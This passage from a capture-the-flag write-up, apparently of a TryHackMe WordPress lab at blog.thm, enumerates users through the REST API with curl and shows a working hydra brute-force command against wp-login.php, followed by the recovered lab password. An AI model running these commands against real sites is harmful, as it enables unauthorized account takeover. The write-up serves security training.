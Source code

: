 Let's grep for `slug`:

```
curl http://blog.thm/wp-json/wp/v2/users -s | jq | grep slug
 "slug": "bjoel",
 "slug": "kwheel",
```


We got two users, what about trying to bruteforce with hydra:

```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=kwheel&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered"
```

![Pasted image 20250327183359.png](../../IMAGES/Pasted%20image%2020250327183359.png)

We got it:

```
kwheel:cutiepie1
```


![Pasted image 20250328145550.png](../../IMAGES/Pasted%20image%2020250328145550.png)
